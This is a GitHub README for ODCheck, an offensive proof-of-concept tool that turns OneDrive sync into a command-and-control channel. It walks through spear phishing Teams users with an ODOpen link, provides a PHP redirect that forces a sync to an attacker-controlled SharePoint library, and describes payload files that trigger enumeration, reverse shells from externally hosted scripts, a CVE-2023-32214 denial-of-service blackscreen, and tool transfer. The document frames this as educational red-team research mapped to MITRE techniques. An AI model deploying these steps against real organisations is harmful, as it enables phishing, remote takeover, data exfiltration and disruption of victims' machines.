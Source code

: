 # DISCLAIMER:
This tool is to be used for educational purposes only. I do not take responsibility if you use this in any other way. 

It's a proof of concept solution that was created for https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/ If you use this for malicious reasons, you will most likely get caught. Don't do it.

# ODCheck

ODCheck is a C2-like proof-of-concept solution designed to evaluate systems against data exfiltration through OneDrive sync traffic. The ODOpen URL can be used for spear phishing in the Microsoft Teams desktop client to establish sync connections with a target through the auto sync functionality. If the connection is successful to an attacker controlled library and the user executes ODCheck, then the client can be used to run commands on the machine based on the file names that are detected in the sync folder. The prebuilt tools and scripts available can help test for the following MITRE techniques:

| MITRE Technique             | ID |
| :---------------- | :------: |
| Exfiltration over C2 Channel        |   [T1041](https://attack.mitre.org/techniques/T1041/)   |
| Masquerading: Right-to-Left Override            |   [T1036.002](https://attack.mitre.org/techniques/T1036/002/)   |
| Modify Registry    |  [T1112](https://attack.mitre.org/techniques/T1112/)   |
| Automated Collection |  [T1119](https://attack.mitre.org/techniques/T1119/)   |
| Denial of Service | [T0814](https://attack.mitre.org/techniques/T0814/)  |
|Command and Scripting Interpreter: PowerShell| [T1059.001](https://attack.mitre.org/techniques/T0814/) |
|Ingress Tool Transfer | [T1105](https://attack.mitre.org/techniques/T1105/) |
|Web Service: Bidirectional Communication| [T1102.002](https://attack.mitre.org/techniques/T1102/002/)
<br/>

 **Setting Up ODCheck**
 
```
# You will need to have the PS2EXE PowerShell module installed 
Install-Module PS2EXE

# Copy the full ODCheck Folder from Github
git clone https://github.com/itssixtyn3in/ODCheck

# Run Manager.ps1 to start the Wizard
.\manager.ps1
```
ODCheck provides a few customization options from here that can be used, depending on what all you want to test.

- When configuring ODCheck, the file names that it watches for will be randomized and copied to the 'Payload folder'. These are the files that you will want to drop into the Sharepoint folder once ODCheck has been activated. The setup will also require that you know the tenant and document library name that you will be using for the mutual sync connection. This information will be required to setup the sync connection to the correct local folder.

- I recommend that you host your reverse shell and other scripts externally. The wizard will ask you for the URL that they're hosted on. 

- If you want to package the file into an EXE with a custom icon, then just specify the file path for the .ico file.

![odcheck_usage](https://github.com/itssixtyn3in/ODCheck/assets/130003354/0824c20a-0c39-47d9-889a-2ebab659e127)

 <br/>

 **Establishing A Sync Connection**
 
 The Microsoft Teams client in it's default configuration allows users to add website tabs to private conversations, or Teams channels. The website tab option can be linked to external pages, which can be used as a jumping point to have users sync specific Sharepoint libraries using the ODOpen:// protocol handler. For further details regarding this please see https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/

 If you've taken over a Office 365 account and can create Sharepoint Sites and write Microsoft Teams messages, then you can retrieve the ODSync link the following way. 
- Create a new sharepoint library and upload a file
- In a browser open up your dev tools > network > click on the 'sync' button on the Sharepoint page to trigger the ODOpen command
- Copy the URL from the network section entry
  
 ![onedrive_link-1024x231](https://github.com/itssixtyn3in/ODCheck/assets/130003354/40d0c5a7-c598-4a7f-adfb-349c533b7724)

 Your link for the sync connection will look similar to this:
 ```
 odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST
```
Upload the ODOpen URL in a PHP file on a webhost that you control. The PHP file content should look like the following:
```
<?php
header("Location: odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST", true, 301);
exit;
?>
```
 Once this sync has been established, then ODCheck can assist with creating a C2 connection. 
<br/><br/>
**Running commands**

Once a sync connection has been set up to the Sharepoint Document Library and the ODCheck client has been executed, then commands can be executed by dropping the payload files into the shared sync folder. 

- Enumeration: Runs multiple Windows enumeration commands and returns the output into the sync folder.
- Reverse Shell: Attempts to run an external script that spawns a reverse shell.
- DOS Condition: Attempts to trigger CVE-2023-32214 which causes a blackscreen for the user if ms-cxh-full:// is available. The screen will reappear if the machine is restarted.
- External Scripts: Attempts to run an external PowerShell script for customization purposes.
- Tool Move: Attempts to move the specified file from the OneDrive folder into Downloads (or another specified folder if manually changed in the script)

https://github.com/itssixtyn3in/ODCheck/assets/130003354/36ea337f-ed2c-427e-9d4e-9628c812404f

